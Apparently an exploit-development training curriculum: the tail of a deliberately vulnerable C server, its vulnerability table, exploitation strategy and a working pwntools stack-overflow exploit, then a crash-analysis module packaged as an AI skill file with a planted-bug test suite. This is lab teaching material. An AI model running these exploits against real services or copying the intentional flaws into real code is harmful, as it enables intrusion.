    ssize_t bytes_read;

    // Store client FD globally so admin_shell can use it
    current_client_fd = client_fd;

    write(client_fd, "VulnServer v1.0 (FIXED)\n", 24);
    write(client_fd, "Commands: auth, echo, note, data, quit\n", 40);
    write(client_fd, "> ", 2);

    while ((bytes_read = read(client_fd, buffer, sizeof(buffer) - 1)) > 0) {
        buffer[bytes_read] = '\0';

        if (bytes_read > 0 && buffer[bytes_read - 1] == '\n') {
            buffer[bytes_read - 1] = '\0';
        }

        if (strncmp(buffer, "auth ", 5) == 0) {
            handle_auth(client_fd, buffer + 5);
        } else if (strncmp(buffer, "echo ", 5) == 0) {
            handle_echo(client_fd, buffer + 5);
        } else if (strncmp(buffer, "note ", 5) == 0) {
            handle_note(client_fd, buffer + 5);
        } else if (strncmp(buffer, "data ", 5) == 0) {
            handle_data(client_fd, buffer + 5);
        } else if (strncmp(buffer, "quit", 4) == 0) {
            write(client_fd, "Goodbye!\n", 9);
            break;
        } else {
            write(client_fd, "Unknown command\n", 16);
        }

        write(client_fd, "> ", 2);
    }

    if (data_buffer) {
        free(data_buffer->data);
        free(data_buffer);
    }
    for (int i = 0; i < MAX_NOTES; i++) {
        if (notes[i]) {
            free(notes[i]);
        }
    }

    close(client_fd);
}

int main() {
    int server_fd, client_fd;
    struct sockaddr_in address;
    int opt = 1;

    // Open syslog for debugging
    openlog("vuln_server", LOG_PID | LOG_CONS, LOG_USER);
    syslog(LOG_INFO, "VulnServer starting...");

    server_fd = socket(AF_INET, SOCK_STREAM, 0);
    if (server_fd < 0) {
        perror("socket");
        exit(1);
    }

    setsockopt(server_fd, SOL_SOCKET, SO_REUSEADDR, &opt, sizeof(opt));

    address.sin_family = AF_INET;
    address.sin_addr.s_addr = INADDR_ANY;
    address.sin_port = htons(PORT);

    if (bind(server_fd, (struct sockaddr *)&address, sizeof(address)) < 0) {
        perror("bind");
        exit(1);
    }

    if (listen(server_fd, 3) < 0) {
        perror("listen");
        exit(1);
    }

    printf("VulnServer (FIXED) listening on port %d...\n", PORT);

    while (1) {
        client_fd = accept(server_fd, NULL, NULL);
        if (client_fd < 0) {
            perror("accept");
            continue;
        }

        if (fork() == 0) {
            close(server_fd);
            handle_client(client_fd);
            exit(0);
        }
        close(client_fd);
    }

    return 0;
}
```

**Compile VulnServer (AMD64 - NX ENABLED!)**:

```bash

# AMD64 with NX enabled - requires ROP!
gcc -g -O0 -fno-stack-protector -no-pie -fcf-protection=none -Wno-format-security vuln_server.c -o vuln_server

# Running server in a new tab
./vuln_server &
```

**Critical Note on Exploitation**:

The `handle_auth()` function in the provided source uses `memcpy(username, data, 200)` instead of the traditional `strcpy()`. This is intentional for the training exercise.

**Why this matters**:

- `strcpy()` stops copying at the first null byte (`\x00`)
- x86-64 addresses always contain null bytes (e.g., `0x0000000000401000`)
- With `strcpy()`, the return address would never be fully overwritten
- `memcpy()` with a fixed length allows null bytes, making the exploit work

**In real-world scenarios with strcpy()**:

- Direct stack overflow exploitation would fail
- You would need to chain vulnerabilities (format string + UAF)
- Or find alternative input methods (binary protocols, file uploads)
- Or use partial overwrites (limited effectiveness on x86-64)

This is an important lesson: **not all vulnerabilities are directly exploitable** due to input validation constraints!

**Vulnerability Summary**:

| Command                        | Vulnerability                  | Primitive                | Exploitation Goal                  |
| ------------------------------ | ------------------------------ | ------------------------ | ---------------------------------- |
| `auth <name>`                  | Stack Buffer Overflow (memcpy) | Control RIP              | Direct jump to admin_shell         |
| `echo <msg>`                   | Format String (snprintf)       | Leak + Write             | Leak libc addresses, overwrite GOT |
| `note create/delete/show/edit` | Use-After-Free                 | Control function pointer | Redirect to admin_shell            |
| `data alloc <size>`            | Integer Overflow               | Heap overflow            | Corrupt heap metadata              |

**Note**: The `auth` command uses `memcpy()` instead of `strcpy()` to allow null bytes in the payload. With `strcpy()`, this vulnerability would require chaining with other bugs (format string or UAF) for exploitation.

**Exploitation Strategy**:

1. **Phase 1 - Stack Overflow (Direct Approach)**:
   - Calculate offset to return address (72 bytes)
   - Build payload with admin_shell address
   - Handle stack alignment (add `ret` gadget)
   - Send payload and get shell

2. **Phase 2 - Information Gathering (For Advanced Techniques)**:
   - Use `echo %p.%p.%p.%p.%p.%p.%p.%p` to leak stack addresses
   - Identify libc pointers (start with 0x7f on AMD64)
   - Calculate libc base address (must end in 000)

3. **Phase 3 - Alternative Attack Vectors** (Optional):
   - **Option A**: Format string arbitrary write → overwrite GOT entry
   - **Option B**: Stack overflow with ROP → ret2libc (requires libc leak)
   - **Option C**: UAF → overwrite function pointer with admin_shell
   - **Option D**: Integer overflow → heap corruption → control flow hijack

**Task**:

1. **Primary Goal**: Exploit `auth` command to get shell via direct jump to admin_shell
2. **Secondary Goals** (choose at least ONE):
   - Use `echo` format string to leak libc addresses
   - Exploit `note` UAF to redirect control flow
   - Exploit `data` integer overflow for heap corruption
3. **Advanced Goal**: Chain multiple vulnerabilities for a complete exploit

### Practical Exercise (AMD64)

**The Capstone Challenge**: Build working exploits for VulnServer

- **Task 1**: Stack Overflow (auth command) - **START HERE**
- **Task 2**: Format String Leak (echo command)
- **Task 3**: UAF Exploit (note command)
- **Task 4**: Integer Overflow (data command)
- **Task 5**: Full Chain Exploit (combine multiple techniques)

#### Task 1

The working exploit requires modifying `handle_auth()` to use `memcpy()` instead of `strcpy()` because `strcpy()` stops at null bytes, and x86-64 addresses always contain null bytes. write it yourself, look at this in case you got stuck

```python
#!/usr/bin/env python3

# pwn_vuln_server.py - Only Task 1, do the rest yourself
"""
This exploit works with the modified vuln_server.c that uses memcpy()
instead of strcpy() in handle_auth(), allowing null bytes in the payload.

Compile:
    gcc -g -O0 -fno-stack-protector -no-pie -fcf-protection=none \
        -Wno-format-security vuln_server.c -o vuln_server

Run:
    ./vuln_server &

Exploit:
    python pwn_vuln_server.py
"""
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

def pwn():
    p = remote('localhost', 1337)
    p.recvuntil(b'> ')

    # Load binary
    elf = ELF('./vuln_server')
    admin_shell = elf.symbols['admin_shell']

    log.success(f"admin_shell @ {hex(admin_shell)}")

    # Find ret gadget for stack alignment
    rop = ROP(elf)
    ret = rop.find_gadget(['ret'])[0]

    log.info(f"ret @ {hex(ret)}")

    # Calculate offset
    # username[64] buffer starts at rbp-0x40
    # Distance from start of username to return address:
    #   64 bytes (buffer) + 8 bytes (saved RBP) = 72 bytes
    offset = 72

    log.info(f"Offset: {offset} bytes")

    # Build payload
    # Note: This works because memcpy() allows null bytes
    payload = b'A' * offset
    payload += p64(ret)           # Stack alignment (16-byte before call)
    payload += p64(admin_shell)   # Jump to admin_shell()

    log.info(f"Payload: {len(payload)} bytes")
    log.info("Sending exploit...")

    p.sendline(b'auth ' + payload)

    # Wait for response
    try:
        response = p.recvline(timeout=2)
        log.info(f"Response: {response[:60]}...")
    except:
        pass

    # Check for admin message
    sleep(0.5)

    try:
        data = p.recv(timeout=2)
        if b'Admin access granted' in data:
            log.success("admin_shell() was called!")
        log.info(f"Received: {data}")
    except:
        pass

    # Now interact with the shell
    log.success("Going interactive - you should have a shell!")
    log.info("Try commands: id, whoami, ls, pwd")

    p.interactive()

if __name__ == '__main__':
    pwn()
```

**Real-World Implications**:

1. **Input Validation Matters**: Many functions stop at null bytes (strcpy, scanf, gets, string functions)
2. **Vulnerability Chaining**: In real scenarios, you'd chain the format string or UAF vulnerabilities
3. **Alternative Input Methods**: Look for binary protocols, file uploads, or other non-string inputs
4. **Partial Overwrites**: On some architectures, you can overwrite just lower bytes (limited on x86-64)

**Alternative Exploitation Paths** (without modifying the server):

1. **Format String Arbitrary Write**: Use `echo` command to write to GOT or function pointers
2. **Use-After-Free**: Exploit `note` command to control function pointer (no null bytes needed)
3. **Integer Overflow**: Use `data` command for heap corruption leading to arbitrary write
4. **Vulnerability Chaining**: Combine multiple bugs for complete exploitation

### Capstone Checklist

- [ ] **Environment Setup**
  - [ ] VulnServer compiled with correct flags
  - [ ] Server running on port 1337
  - [ ] pwntools environment configured
  - [ ] Binary protections verified (NX enabled, no canary, no PIE)

- [ ] **Task 1: Stack Overflow (Primary Goal)** [x] Working exploit provided
  - [ ] Buffer overflow offset found (72 bytes)
  - [ ] admin_shell address located
  - [ ] ret gadget found for stack alignment
  - [ ] Payload built correctly (padding + ret + admin_shell)
  - [ ] Shell obtained reliably (>90% success)
  - [ ] Understand why memcpy() is used instead of strcpy()

- [ ] **Task 2: Format String Leak**
  - [ ] Format string vulnerability confirmed via `echo` command
  - [ ] Stack layout mapped (positions 1-20)
  - [ ] Libc addresses identified (0x7f...)
  - [ ] Libc base calculated correctly (ends in 000)
  - [ ] Leak is reliable (100% success rate)
  - [ ] Note: Exploit code provided in earlier sections (find_libc_offset.py)

- [ ] **Task 3: Use-After-Free**
  - [ ] UAF vulnerability confirmed via `note` command
  - [ ] Note struct layout understood (64 bytes content + 8 bytes function pointer)
  - [ ] admin_shell address located
  - [ ] Limitation identified: strcpy prevents null bytes in function pointer
  - [ ] Alternative: Use format string to write function pointer

- [ ] **Task 4: Integer Overflow**
  - [ ] Integer overflow identified in `data alloc` command
  - [ ] Vulnerability: `size + 1` can wrap to 0 if size = 0xffffffff
  - [ ] Heap overflow potential confirmed
  - [ ] Note: Exploitation requires heap feng shui techniques

- [ ] **Documentation**
  - [ ] Working exploit (pwn_vuln_server.py) tested and understood
  - [ ] Understand the strcpy() vs memcpy() lesson
  - [ ] Know why direct exploitation of strcpy() buffer overflow fails
  - [ ] Understand alternative exploitation paths (format string, UAF)
  - [ ] Document lessons learned about input validation constraints

### Key Takeaways

1.  **Exploitation is Engineering**: It requires precision, planning, and debugging. It's not just running a script.
2.  **Primitives are Building Blocks**: A "crash" is useless. A "write-what-where" is powerful.
3.  **Reliability separates Pros from Script Kiddies**: An exploit that works 100% of the time is infinitely better than one that works 10% of the time.
4.  **Mitigations Change the Game**: Everything you learned this week assumes no mitigations. Next week, you'll see how ASLR and DEP break these techniques (and how to fix them).
5.  **CET Changes Modern Exploitation**: On glibc 2.34+, ROP to `system()` may fail; use one_gadget with RBP fix or function pointer overwrites instead.
6.  **Know Your Attack Surface**: Function pointers and GOT bypass CET; ROP chains don't.
7.  **Input Validation Matters**: Functions like `strcpy()` stop at null bytes, making some exploits impossible without modification or vulnerability chaining.
8.  **Real-World Constraints**: The strcpy() limitation in this exercise teaches an important lesson - not all vulnerabilities are directly exploitable due to input validation.

### Discussion Questions

1.  How can integer overflows lead to exploitable conditions? Give examples of vulnerable size calculations.
2.  Why are integer overflows particularly dangerous in parsers (images, fonts, documents)?
3.  What's the difference between signed and unsigned integer overflow behavior in C?
4.  In the multi-stage exploit, how do you chain primitives from different vulnerability classes?
5.  Which vulnerability class did you find most difficult to exploit this week, and why?
6.  How would ASLR affect the exploits you built this week? What information would you need to leak to bypass it?
7.  What makes data-only attacks valuable in modern exploitation scenarios where CFI/CET is enabled?

### Bridging to Windows (Week 6 Preparation)

The techniques you learned this week apply to Windows with some modifications:

| Linux Concept       | Windows Equivalent                  | Key Difference                                     |
| ------------------- | ----------------------------------- | -------------------------------------------------- |
| `execve("/bin/sh")` | `WinExec("cmd.exe")`                | Different API, same goal                           |
| GOT/PLT             | IAT (Import Address Table)          | Similar lazy binding concept                       |
| Stack canary        | /GS cookie                          | XOR'd with stack frame pointer on Windows          |
| NX bit              | DEP                                 | Same hardware feature                              |
| ASLR                | ASLR + High Entropy VA              | More entropy on 64-bit Windows                     |
| Signal handlers     | SEH (Structured Exception Handling) | Different exploitation approach (chain overwrites) |
| glibc heap          | NT Heap / Segment Heap              | Different allocator internals and metadata         |
| Format strings      | Same vulnerability                  | Different format specifiers (`%p`, `%n` work)      |
| ROP gadgets         | Same technique                      | Different calling convention (stack-based args)    |
| one_gadget          | Magic gadgets in system DLLs        | Similar concept, different tools                   |

### Techniques Covered This Week

**Day 1**: Stack buffer overflow, shellcode execution, NOP sleds, offset finding  
**Day 2**: ret2libc, ROP chains, libc leaks, one_gadget, stack alignment  
**Day 3**: Heap fundamentals, heap overflow, fastbin/tcache poisoning  
**Day 4**: Modern heap techniques (House of Botcake, House of Water, House of Tangerine), safe-linking bypass  
**Day 5**: Format string exploitation, arbitrary read/write, GOT overwrites, FSOP  
**Day 6**: Logic bugs, data-only attacks, UAF exploitation, race conditions  
**Day 7**: Integer overflows, multi-stage exploits, combining primitives

### Looking Ahead to Week 6

Next week introduces modern exploit mitigations (DEP, ASLR, stack canaries, CFI/CET) and how they prevent the techniques you learned this week. You'll learn to:

- Identify active mitigations using `checksec`, `vmmap`, and runtime analysis
- Understand protection mechanisms (how they work internally)
- Recognize when mitigations are improperly configured or bypassable
- Prepare for Week 7's mitigation bypass techniques (info leaks, partial overwrites, heap spraying, etc.)

The goal is to understand **what** each mitigation protects against and **why** it works before learning how to defeat it.

<!-- Written by AnotherOne from @Pwn3rzs Telegram channel -->


### From `hunt-skills/exploit-dev/offensive-crash-analysis/SKILL.md`

## Metadata
- **Skill Name**: crash-analysis
- **Folder**: offensive-crash-analysis
- **Source**: https://github.com/SnailSploit/offensive-checklist/blob/main/4-crash-analysis.md

## Description
Week 4 exploit development curriculum. Crash triage and analysis methodology: WinDbg/GDB analysis, ASAN/MSAN output interpretation, exploitability assessment, register/stack trace reading, root cause identification. Use when analyzing crash dumps, assessing exploitability, or understanding fuzzer-generated crashes.

## Trigger Phrases
Use this skill when the conversation involves any of:
`crash analysis, crash triage, WinDbg, GDB, ASAN, MSAN, exploitability, stack trace, register dump, segfault, null deref, access violation, week 4`

## Overview

_created by AnotherOne from @Pwn3rzs Telegram channel_.

After finding potential vulnerabilities through fuzzing (Week 2) or patch diffing (Week 3), the next critical step is analyzing crashes to determine if they're exploitable. This week focuses on crash triage, debugger mastery, and techniques for identifying how to reach vulnerable code paths from attacker-controlled input.

Once you've confirmed a crash is exploitable and built a PoC, you'll be ready for Basic Exploitation in Week 5.

### Prerequisites

Before starting this week, ensure you have:

- A Windows VM (for WinDbg labs) and a Linux VM (for GDB/ASAN/CASR labs).
- Completed Week 2 fuzzing labs, including running AFL++ or libFuzzer against at least one C/C++ target
- Completed (or skimmed) Week 3 patch diffing labs:
  - Familiar with Ghidriff/Diaphora diff reports and how to interpret changed functions
  - Understand how to extract Windows updates and Linux kernel patches
  - Reviewed at least one case study (CVE-2022-34718 EvilESP, CVE-2024-1086 nf_tables, or 7-Zip symlink bugs)
- Comfortable understanding from Week 1 of basic vulnerability classes (buffer overflow, UAF, integer bugs, info leaks) and their exploit primitives

### Crash Analysis Decision Tree

Use this decision tree to select the appropriate tools and workflow for any crash you encounter:

```
┌─────────────────────────────────────────────────────────────────────┐
│                        CRASH RECEIVED                               │
└─────────────────────────────────────────────────────────────────────┘
                                │
                                ▼
                    ┌───────────────────────┐
                    │ Source code available?│
                    └───────────────────────┘
                      │                    │
                     Yes                   No
                      │                    │
                      ▼                    ▼
        ┌─────────────────────┐   ┌──────────────────────────┐
        │ Recompile with      │   │ What platform?           │
        │ ASAN + UBSAN        │   └──────────────────────────┘
        │ (Day 2)             │     │         │         │
        └─────────────────────┘     │         │         │
                      │          Windows   Linux    Mobile
                      │             │         │         │
                      ▼             ▼         ▼         ▼
        ┌─────────────────────┐ ┌───────┐ ┌───────┐ ┌───────────┐
        │ Run crash input     │ │WinDbg │ │Pwndbg │ │ Tombstone │
        │ Get detailed report │ │+ TTD  │ │+ rr   │ │ + Frida   │
        └─────────────────────┘ │(Day 1)│ │(Day 1)│ │ (Future)  │
                      │         └───────┘ └───────┘ └───────────┘
                      │             │         │         │
                      └─────────────┴────┬────┴─────────┘
                                         │
                                         ▼
                    ┌─────────────────────────────────────┐
                    │ Crash requires special environment? │
                    └─────────────────────────────────────┘
                       │                              │
                      Yes                             No
                       │                              │
                       ▼                              │
        ┌─────────────────────────────┐               │
        │ Setup reproduction env:     │               │
        │ - Network (tcpdump, proxy)  │               │
        │ - Files (strace, procmon)   │               │
        │ - Services (docker, VM)     │               │
        └─────────────────────────────┘               │
                       │                              │
                       └──────────────┬───────────────┘
                                      │
                                      ▼
                            ┌─────────────────────┐
                            │ Crash type known?   │
                            └─────────────────────┘
                              │                 │
                             Yes                No
                              │                 │
                              ▼                 ▼
                ┌─────────────────────┐  ┌─────────────────────┐
                │ Run CASR for        │  │ Manual analysis:    │
                │ classification      │  │ - Examine registers │
                │ (Day 3)             │  │ - Check memory      │
                └─────────────────────┘  │ - Disassemble       │
                              │          │ (Day 3)             │
                              │          └─────────────────────┘
                              │                 │
                              └────────┬────────┘
                                       │
                                       ▼
                          ┌─────────────────────────┐
                          │ EXPLOITABILITY ASSESS   │
                          │ - Check mitigations     │
                          │ - Control analysis      │
                          │ - Reachability (Day 4)  │
                          └─────────────────────────┘
                                       │
                                       ▼
                          ┌─────────────────────────┐
                          │ Multiple crashes?       │
                          └─────────────────────────┘
                            │                    │
                           Yes                   No
                            │                    │
                            ▼                    ▼
              ┌─────────────────────┐   ┌─────────────────────┐
              │ Deduplicate (Day 5) │   │ Minimize (Day 5)    │
              │ - CASR cluster      │   │ - afl-tmin          │
              │ - Stack hash        │   │ - Manual reduction  │
              └─────────────────────┘   └─────────────────────┘
                            │                    │
                            └────────┬───────────┘
                                     │
                                     ▼
                        ┌─────────────────────────┐
                        │ Create PoC (Day 6)      │
                        │ - Python + pwntools     │
                        │ - Verify reliability    │
                        │ - Document findings     │
                        └─────────────────────────┘
```

**Quick Reference - Tool Selection by Scenario**:

| Scenario                    | Primary Tool               | Secondary Tool   | Sanitizer    |
| --------------------------- | -------------------------- | ---------------- | ------------ |
| Linux binary, have source   | GDB + Pwndbg               | rr               | ASAN + UBSAN |
| Linux binary, no source     | GDB + Pwndbg               | Ghidra           | N/A          |
| Windows binary, have source | WinDbg + TTD               | Visual Studio    | ASAN         |
| Windows binary, no source   | WinDbg + TTD               | IDA/Ghidra       | N/A          |
| Fuzzer crash corpus         | CASR                       | afl-tmin         | ASAN         |
| Non-deterministic crash     | rr (Linux) / TTD (Windows) | Chaos mode       | TSAN         |
| Kernel crash (Linux)        | crash utility              | GDB + KASAN      | KASAN        |
| Kernel crash (Windows)      | WinDbg kernel              | Driver Verifier  | N/A          |
| Android app crash           | Tombstone + ndk-stack      | Frida            | HWASan       |
| Rust/Go crash               | Native debugger            | Sanitizer output | Built-in     |

## Day 1: Debugger Fundamentals and Crash Dump Analysis

- **Goal**: Learn Windows Debugger (WinDbg) and Linux debugger (GDB + Pwndbg) for analyzing application crashes.
- **Activities**:
  - _Reading_:
    - "Practical Malware Analysis" by Michael Sikorski - Chapter 9 and 10
    - [WinDbg Official Documentation](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/)
    - [Pwndbg Documentation](https://pwndbg.re/stable/)
  - _Online Resources_:
    - [Common WinDbg Commands](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/commands)
    - [Debugging Tools for Windows](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools)
    - [GDB Quick Reference](https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf)
  - _Tool Setup_:
    - **Windows**: Install WinDbg Preview from Microsoft Store
    - **Linux**: Install GDB with Pwndbg enhancement
    - Install Windows SDK for symbol support
  - _Exercise_:
    - Analyze 5 pre-generated crash dumps (Windows and Linux)
    - Identify crash type and root cause for each

### Reproduction Fidelity

> [!IMPORTANT]
> Before any crash analysis, ensure you can reproduce the crash reliably.
> A crash that only happens "sometimes" or "on the fuzzer's machine" is nearly impossible to analyze or exploit.
> This section establishes the mandatory checklist for achieving reproduction fidelity.

#### Reproduction Fidelity Checklist

Before analyzing any crash, verify these match between discovery and analysis environments:

```text
┌─────────────────────────────────────────────────────────────────┐
│ REPRODUCTION FIDELITY CHECKLIST                                 │
├─────────────────────────────────────────────────────────────────┤
│ System Environment                                              │
│ [ ] OS/Kernel version     : ________________________________    │
│ [ ] libc version          : ________________________________    │
│ [ ] CPU architecture      : [ ] x86 [ ] x86_64 [ ] ARM64        │
│ [ ] Container/VM          : [ ] Native [ ] Docker [ ] VM        │
│ [ ] ASLR state            : [ ] Enabled [ ] Disabled            │
├─────────────────────────────────────────────────────────────────┤
│ Process Environment                                             │
│ [ ] argv (command-line)   : ________________________________    │
│ [ ] Environment variables : ________________________________    │
│ [ ] Working directory     : ________________________________    │
│ [ ] Locale (LC_ALL, LANG) : ________________________________    │
│ [ ] umask / permissions   : ________________________________    │
├─────────────────────────────────────────────────────────────────┤
│ Input Path                                                      │
│ [ ] Input source          : [ ] stdin [ ] file [ ] network      │
│ [ ] Input file path       : ________________________________    │
│ [ ] Network port/protocol : ________________________________    │
├─────────────────────────────────────────────────────────────────┤
│ Build Configuration                                             │
│ [ ] Compiler version      : ________________________________    │
│ [ ] Optimization level    : [ ] -O0 [ ] -O1 [ ] -O2 [ ] -O3     │
│ [ ] Sanitizers            : [ ] ASAN [ ] UBSAN [ ] TSAN [ ] None│
│ [ ] Debug symbols         : [ ] Yes [ ] No                      │
│ [ ] Mitigations           : [ ] PIE [ ] Canary [ ] RELRO        │
└─────────────────────────────────────────────────────────────────┘
```

# Full ASAN options for crash analysis
export ASAN_OPTIONS="\
abort_on_error=1:\
symbolize=1:\
detect_leaks=1:\
disable_coredump=0:\
halt_on_error=1:\
print_stats=1:\
check_initialization_order=1:\
detect_stack_use_after_return=1:\
quarantine_size_mb=256"

# UBSAN options
export UBSAN_OPTIONS="\
print_stacktrace=1:\
halt_on_error=1:\
suppressions=ubsan_suppressions.txt"

# Symbolizer path (required for readable stack traces)
export ASAN_SYMBOLIZER_PATH=$(command -v llvm-symbolizer)
```

**glibc Allocator Tuning** (Linux):

```bash

# Modern glibc tunable interface (glibc 2.26+)
export GLIBC_TUNABLES="\
glibc.malloc.check=3:\
glibc.malloc.perturb=165"

# glibc.malloc.perturb=165: Fill freed memory with 0xA5 (helps detect UAF)
```

**Core Dump Configuration** (Linux):

```bash

# echo 'core.%e.%p' | sudo tee /proc/sys/kernel/core_pattern
```

**ASLR Control** (Linux - for deterministic analysis):

```bash

# Disable ASLR for current shell (temporary, per-process)
setarch $(uname -m) -R ./target < crash_input

# You:    ./target < crash (stdin)  # May not reproduce!
```

**Example: stdin vs file difference**:

```c
// Some programs behave differently:
// - stdin may be line-buffered
// - File may be memory-mapped
// - Network may have different read chunk sizes

// This can affect:
// - Buffer contents at crash time
// - Heap layout (different allocation patterns)
// - Race conditions (timing changes)
```

# repro_test.sh - Verify crash reproduction

CRASH_INPUT="$1"
TARGET="$2"
EXPECTED_SIGNAL="${3:-11}"  # Default: SIGSEGV (11)

echo "[*] Testing reproduction of $(basename $CRASH_INPUT)"
echo "[*] Target: $TARGET"
echo "[*] Expected signal: $EXPECTED_SIGNAL"

# Run 10 times
CRASHES=0
for i in {1..10}; do
    timeout 5s $TARGET < "$CRASH_INPUT" 2>/dev/null
    EXIT_CODE=$?

    # Check for crash signal (128 + signal number)
    if [ $EXIT_CODE -gt 128 ]; then
        SIGNAL=$((EXIT_CODE - 128))
        if [ $SIGNAL -eq $EXPECTED_SIGNAL ] || [ $SIGNAL -eq 6 ]; then
            ((CRASHES++))
        fi
    fi
done

echo "[*] Crash rate: $CRASHES/10"
if [ $CRASHES -ge 9 ]; then
    echo "[+] Reproduction: RELIABLE"
elif [ $CRASHES -ge 5 ]; then
    echo "[!] Reproduction: FLAKY - investigate environment"
else
    echo "[-] Reproduction: FAILED - check environment checklist"
fi
```

### Installing WinDbg and Symbol Support

**WinDbg Preview** (recommended - modern UI):

```batch
winget install Microsoft.WinDbg
```

**Windows SDK Debugging Tools** (includes cdb.exe for command-line/batch analysis):

```bash

# Option 1: Install via winget (Windows SDK)
winget install --source winget --exact --id Microsoft.WindowsSDK.10.0.26100

# Add to PATH for convenience (run as Administrator):
setx PATH "%PATH%;C:\Program Files (x86)\Windows Kits\10\Debuggers\x64" /M

# Or use full path in scripts:
"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\cdb.exe" -z dump.dmp -c "!analyze -v; q"
```

**Configure Symbol Path**:

```bash

# In WinDbg command window:
.sympath SRV*C:\Symbols*https://msdl.microsoft.com/download/symbols

# Or set environment variable permanently (recommended):
setx _NT_SYMBOL_PATH "SRV*C:\Symbols*https://msdl.microsoft.com/download/symbols"

### Linux Crash Dump Generation and Pwndbg Setup

> [!HINT]
> While Windows uses WinDbg, Linux crash analysis uses GDB enhanced with Pwndbg. This section covers parallel Linux setup.

**Installing Pwndbg**:

```bash

# Install Pwndbg (recommended for crash analysis)
cd ~/tools
git clone --depth 1 https://github.com/pwndbg/pwndbg
cd pwndbg
./setup.sh

# Verify installation
gdb -q -ex "quit" 2>&1 | grep -q "pwndbg" && echo "pwndbg installed successfully"
```

> [!WARNING]
> Pwndbg is installed per-user in `~/.gdbinit`. If you run `sudo gdb`, it uses root's home directory and won't find your pwndbg config. Solutions:
> For crash analysis of your own compiled test programs, you typically don't need sudo. Only use sudo when attaching to system processes or analyzing setuid binaries.

```bash

# Option 1: Use gdb as regular user (recommended for most analysis)
cd ~/crash_analysis_lab
gdb ./vuln_no_protect -c core.dump

# Option 2: If you MUST use sudo (e.g., attaching to privileged process)
sudo -E gdb ./program  # -E preserves your environment including HOME

# Option 3: Install pwndbg for root as well
sudo su -
cd /root
git clone https://github.com/pwndbg/pwndbg
cd pwndbg && ./setup.sh
exit

# Option 4: Explicitly source pwndbg in sudo gdb session
sudo gdb -ex "source /home/<YOUR_USER>/tools/pwndbg/gdbinit.py" ./program
```

**Configuring Core Dumps on Linux**:

```bash

# Enable core dumps for current shell (recommended for learning)
ulimit -c unlimited
```

> [!TIP]
> **For the exercises in this course**, you typically only need:
>
> ```bash
> ulimit -c unlimited  # In your current shell
> ```
>
> On modern Ubuntu/Debian with systemd, cores are handled by `systemd-coredump` even if you set `ulimit`.
> Use `coredumpctl` to list and debug them.

> [!WARNING]
> **Optional: Local core files in CWD** (modifies system-wide settings)
>
> If you specifically need core files in your working directory instead of systemd-coredump:
>
> ```bash
> # This is SYSTEM-WIDE and may interfere with other tooling
> echo 'core.%e.%p' | sudo tee /proc/sys/kernel/core_pattern
> ```
>
> Additional kernel settings that affect core dumps:
>
> - `kernel.core_uses_pid`: Append PID to core filename
> - `fs.suid_dumpable`: Controls dumps for setuid binaries (0=disabled, 1=enabled, 2=suidsafe)

### Building a Vulnerable Test Suite for Linux

Create these vulnerable C programs to generate real crashes:

```bash

# Create a directory for crash analysis practice
mkdir -p ~/crash_analysis_lab/{src,crashes,cores}
cd ~/crash_analysis_lab/src
```

**vulnerable_suite.c** - Save this file for testing multiple vulnerability types:

```c
// ~/crash_analysis_lab/src/vulnerable_suite.c - Compile with different flags for different exercises
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// 1. Stack Buffer Overflow
void stack_overflow(char *input) {
    char buffer[64];
    printf("[*] Copying input to 64-byte buffer...\n");
    strcpy(buffer, input);  // No bounds check!
    printf("[*] Buffer: %s\n", buffer);
}

// 2. Heap Buffer Overflow
void heap_overflow(char *input) {
    char *buf = malloc(32);
    printf("[*] Allocated 32 bytes at %p\n", buf);
    strcpy(buf, input);  // Overflow heap buffer
    printf("[*] Buffer: %s\n", buf);
    free(buf);
}

// 3. Use-After-Free
void use_after_free() {
    char *ptr = malloc(64);
    strcpy(ptr, "Hello, World!");
    printf("[*] Allocated at %p: %s\n", ptr, ptr);
    free(ptr);
    printf("[*] Freed, now accessing...\n");
    printf("[*] UAF read: %s\n", ptr);  // UAF read - may print stale data
    ptr[0] = 'X';  // UAF write - may corrupt allocator state
}

// 4. Double Free
void double_free() {
    char *ptr = malloc(64);
    printf("[*] Allocated at %p\n", ptr);
    free(ptr);
    printf("[*] First free done\n");
    free(ptr);  // Double free!
}

// 5. NULL Pointer Dereference
void null_deref(int trigger) {
    char *ptr = trigger ? malloc(10) : NULL;
    printf("[*] ptr = %p\n", ptr);
    *ptr = 'A';  // NULL deref if trigger is 0
}

void print_usage(char *prog) {
    printf("Usage: %s <test_num> [input]\n", prog);
    printf("Tests:\n");
    printf("  1 <input>  - Stack overflow (need ~100+ chars)\n");
    printf("  2 <input>  - Heap overflow (need ~50+ chars)\n");
    printf("  3          - Use-after-free\n");
    printf("  4          - Double free\n");
    printf("  5 <0|1>    - NULL deref (0=crash)\n");
    printf("\nExample: %s 1 $(python3 -c \"print('A'*100)\")\n", prog);
}

int main(int argc, char **argv) {
    if (argc < 2) { print_usage(argv[0]); return 1; }
    int test = atoi(argv[1]);

    switch(test) {
        case 1: if (argc<3) return 1; stack_overflow(argv[2]); break;
        case 2: if (argc<3) return 1; heap_overflow(argv[2]); break;
        case 3: use_after_free(); break;
        case 4: double_free(); break;
        case 5: if (argc<3) return 1; null_deref(atoi(argv[2])); break;
        default: print_usage(argv[0]); return 1;
    }
    return 0;
}
```

**Build the test suite**:

```bash
cd ~/crash_analysis_lab/src

# 1. Build WITHOUT mitigations (for basic crash analysis)
gcc -g -fno-stack-protector -no-pie -z execstack \
    vulnerable_suite.c -o ../vuln_no_protect

# 2. Build WITH ASAN (for detailed memory error reports)
gcc -g -O1 -fsanitize=address -fno-omit-frame-pointer \
    vulnerable_suite.c -o ../vuln_asan

# 3. Build with standard protections (see how mitigations affect crashes)
gcc -g vulnerable_suite.c -o ../vuln_protected
```

**Generate your first crashes**:

```bash
cd ~/crash_analysis_lab

# Check for core file: ls -la core* (if core_pattern writes to CWD) or use coredumpctl (systemd systems) or look at output of `cat /proc/sys/kernel/core_pattern`

# Test 2: Stack overflow with ASAN - detailed report
./vuln_asan 1 $(python3 -c "print('A'*200)") 2>&1 | tee crashes/stack_asan.txt

# Test 3: Use-after-free with ASAN
./vuln_asan 3 2>&1 | tee crashes/uaf_asan.txt

# Test 4: NULL dereference - generates core dump
./vuln_no_protect 5 0
```

**Using coredumpctl (systemd systems)**:

